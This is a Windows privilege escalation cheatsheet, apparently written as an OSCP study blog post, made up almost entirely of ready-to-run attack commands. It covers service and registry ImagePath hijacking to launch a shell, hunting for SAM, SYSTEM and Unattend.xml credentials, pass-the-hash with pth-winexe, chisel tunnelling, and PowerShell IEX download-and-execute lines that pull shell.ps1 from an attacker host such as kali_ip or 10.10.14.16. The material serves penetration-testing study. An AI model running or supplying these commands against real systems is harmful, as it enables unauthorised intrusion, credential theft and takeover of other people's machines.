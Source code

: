 ```yaml
---
title: Windows Privilege Escalation
date: 2020-06-26 18:05:42
tags: [oscp, cheatsheet, windows, privilege escalation]
---
```


# Windows Privilege Escalation Cheatsheet

So you got a shell, what *now*?
This post will help you with local enumeration as well as escalate your privileges further.

Usage of different enumeration scripts and tools is encouraged, my favourite is [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS). If confused which executable to use, use [this](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASexe/winPEAS/bin/Obfuscated%20Releases/winPEASany.exe)

Keep in mind:
* To exploit services or registry, you require:
    * appropriate write permissions
    * service start permission
    * service stop permission
* To exploit AutoLogon services:
    * Permissions to restart the machine
* Look for non-standard programs on the system

*Note: This is a live document. I'll be adding more content as I learn more*

## General Information
``` powershell
# If nothing is specified, assume command can be run on cmd.exe or powershell.exe
whoami
echo %username%
whoami /all

hostname
echo %hostname%

net users
net users username

# Note hostname, patches, architecture
systeminfo

# Both should be the same for ease of exploitation
# PowerShell
[environment]::Is64BitOperatingSystem
[environment]::Is64BitProcess

# all, addresses:port, PID
netstat -ano
```
## File Transfer
``` powershell
# On KALI
# use double-quotes if file path has spaces in it 
sudo impacket-smbserver abcd /path/to/serve

# mount drives
net use abcd: \\kali_ip\myshare
net use abcd: /d # disconnect
net use abcd: /delete # then delete
# PowerShell
New-PSDrive -Name "abcd" -PSProvider "FileSystem" -Root "\\ip\abcd"
Remove-PSDrive -Name abcd

# OR copy directly from the share without mounting
copy //kali_ip/abcd/file_name C:\path\to\save
copy C:\path\to\file //kali_ip/abcd
copy "C:\Program Files\..\legit.exe" C:\Temp
copy /Y C:\Downloads\shell.exe "C:\Program Files\...\legit.exe"

# Download to Windows
powershell.exe -nop -ep bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://ip/file')"
powershell.exe -nop -ep bypass -c "IEX(New-Object Net.WebClient).DownloadFile('http://ip/file','C:\Users\Public\Downloads\file')"
powershell.exe -nop -ep bypass -c "IWR -URI 'http://ip/file' -Outfile '/path/to/file'"
certutil -urlcache -f http://kali_ip/file file
```
## Automated Enumeration
``` powershell
# Run winPEAS
# For color: 
	# > REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
	# > cmd.exe
.\winpeasany.exe quiet
```
## Accesschk

``` powershell
# .\accesschk.exe /accepteula
# -c : Name a windows service, or use * for all
# -d : Only process directories
# -k : Name a registry key e.g., hklm/software
# -q : Omit banner
# -s : Recurse
# -u : Suppress errors
# -v : Verbose
# -w : Show objects with write access

# Check service permissions
# ALWAYS RUN THE FOLLOWING TO CHECK IF YOU'VE PERMISSIONS TO START AND STOP THE SERVICE
.\accesschk.exe /accepteula -ucqv <user> <svc_name>

# Get all writable services as per groups
.\accesschk.exe /accepteual -uwcqv Users *
.\accesschk.exe /accepteula -uwcqv "Authenticated Users" *

# Is dir writable? - Unquoted service paths
.\accesschk.exe /accepteula -uwdv "C:\Program Files"

# User permissions on an executable
.\accesschk.exe /accepteula -uqv "C:\Program Files\...\file.exe"

# Find all weak permissions - folders
.\accesschk.exe /accepteula -uwdqs Users c:\
.\accesschk.exe /accepteula -uwdqs "Authenticated Users" c:\

# Find all weak permissions - files
.\accesschk.exe /accepteula -uwqs Users c:\*.*
.\accesschk.exe /accepteula -uwqs "Authenticated Users" c:\*.*

# Registry ACL - Weak registry permissions
.\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\svc_name
# PowerShell
Get-Acl HKLM\System\CurrentControlSet\Services\svc_name | Format-List

# Get rights of any file, or folder
# PowerShell
(get-acl C:\path\to\file).access | ft IdentityReference,FileSystemRights,AccessControlType
```
## sc.exe
``` powershell
# Query service configuration
# Verify after doing all the changes
sc qc svc

# Current state of the service
sc query svc

# Modify config
sc config svc binpath= "\"C:\Downloads\shell.exe\""

# if dependencies exist
sc config depend_svc start= auto
net start depend_svc
net start svc

# can instead remove dependency too
sc config svc depend= ""

# Start/stop the service
net start/stop svc
```
## Registry 
``` powershell
# Query configuration of registry entry of the service
reg query HKLM\System\CurrentControlSet\Services\svc_name

# Point the ImagePath to malicious executable
reg add HKLM\SYSTEM\CurrentControlSet\services\svc_name /v ImagePath /t REG_EXPAND_SZ /d C:\path\shell.exe /f

# Start/stop the service to get the shell
net start/stop svc

# Execute a reverse_shell.msi as admin
# Manually, both query's output should be 0x1 to exploit
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
## Credentials or Hashes
``` powershell
# Common creds location, always in plaintext
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogin"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s

# If found, prints the location of the file
dir /s <filename> # or extensions
dir /s SAM
dir /s SYSTEM
dir /s Unattend.xml

# Found creds?
# On KALI
# --system only works if admin creds are on hand
winexe -U 'admin%pass123' [--system] //10.10.10.10 cmd.exe
# Found hash?
pth-winexe -U 'domain\admin%LM:NTLM' [--system] //10.10.10.10 cmd.exe
```
## RunAs
``` powershell
# cmd
runas /savecred /user:admin C:\abcd\reverse.exe

# PowerShell Runas 1
$password = ConvertTo-SecureString 'pass123' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('Administrator', $password)
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://kali_ip/shell.ps1')" -Credential $cred

# PowerShell Runas 2
$username = "domain\Administrator"
$password = "pass123"
$secstr = New-Object -TypeName System.Security.SecureString
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
Invoke-Command -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16/shell.ps1') } -Credential $cred -Computer localhost
```
## Port Forwarding 
``` powershell
# If some port are listening on the target machine but inaccessible, forward the ports - Port Forwarding
# winexe, pth-winexe, smbexec.py, psexec works on 445, MySQL on 3306
# On KALI
./chisel server --reverse --port 9001
# On Windows
.\chisel.exe client KALI_IP:9001 R:KALI_PORT:127.0.0.1:WINDOWS_PORT
# Example --> .\chisel.exe client KALI_IP:9001 R:445:127.0.0.1:445

# On KALI
winexe -U 'administrator%pass123' --system //127.0.0.1 KALI_PORT
smbexec.py domain/username:password@127.0.0.1 
mysql --host=127.0.0.1 --port=KALI_PORT -u username -p
```
## Exploit suggester
Windows exploit suggester can be found [here](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
``` powershell
# On KALI
# Find exploits
# .\windows-exploit-suggester.py --update
.\windows-exploit-suggester.py -i systeminfo.txt -d 2020-xxx.xlsx
```